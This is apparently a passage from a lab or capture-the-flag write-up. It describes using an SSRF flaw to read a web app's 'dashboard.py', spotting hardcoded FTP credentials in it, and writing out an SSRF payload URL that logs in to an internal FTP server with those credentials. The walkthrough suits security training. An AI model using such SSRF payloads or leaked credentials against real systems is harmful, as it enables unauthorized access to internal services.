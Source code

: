 ```xml
    ├── js/
    └── ...

```

With the useful code extracted from **`dashboard.py`** using the SSRF vulnerability, we can analyze it to identify critical functionalities, potential vulnerabilities, and further actions for exploitation.

```xml
try:
    ftp = FTP('ftp.local')
    ftp.login(user='ftp_admin', passwd='u3jai8y71s2')
    ftp.cwd('/')
    with open(backup_filename, 'rb') as file:
        ftp.storbinary(f'STOR {backup_filename}', file)
    ftp.quit()
    os.remove(backup_filename)
    flash('Backup and upload completed successfully!', 'success')
except Exception as e:
    flash(f'Error: {str(e)}', 'error')
    return redirect(url_for('dashboard.dashboard'))

```

In the code above, I noticed FTP credentials. I'll utilize the SSRF method to connect to this FTP.

```bash
ftp://ftp_admin:u3jai8y71s2@ftp.local/
```

![Untitled](Untitled%208.png)
